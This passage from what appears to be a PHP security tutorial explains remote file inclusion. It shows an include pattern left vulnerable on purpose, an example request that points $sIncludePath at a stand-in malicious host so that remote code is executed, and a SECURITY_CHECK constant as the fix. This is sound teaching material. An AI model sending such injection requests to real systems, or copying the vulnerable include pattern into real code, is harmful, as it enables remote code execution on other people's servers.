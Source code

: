 PHP will get it via HTTP instead of a local pathname. While this is a
nice feature it can also be a big security risk.

'''Note: The allow_url_fopen directive is enabled by default. '''

A common mistake is not considering that every file can be called
directly, that is a file written to be included is called directly by a
malicious user. An example:

    // file.php

    $sIncludePath = '/inc/';

    include($sIncludePath . 'functions.php');

    ...


    // functions.php

    include($sIncludePath . 'datetime.php');

    include($sIncludePath . 'filesystem.php');

In the above example, functions.php is not meant to be called directly,
so it assumes the calling page sets $sIncludePath. By creating a file
called datetime.php or filesystem.php on another server (and turning off
PHP processing on that server) we could call functions.php like the
following:

    functions.php?sIncludePath=http://www.malicioushost.com/

PHP would nicely download datetime.php from the other server and execute
it, which means a malicious user could execute code of his/her choice in
functions.php. I would recommend against includes within includes (as
the example above). In my opinion, it makes it harder to understand and
get an overview of the code. Right now, we want to make the above code
safe and to do that we make sure that functions.php really is called
from file.php. The code below shows one solution:

```

// file.php

define('SECURITY_CHECK', true);

$sIncludePath = '/inc/';

include($sIncludePath . 'functions.php');

...

// functions.php

if ( !defined('SECURITY_CHECK') ) {

// Output error message and exit.

...

}

include($sIncludePath . 'datetime.php');

include($sIncludePath . 'filesystem.php');
```
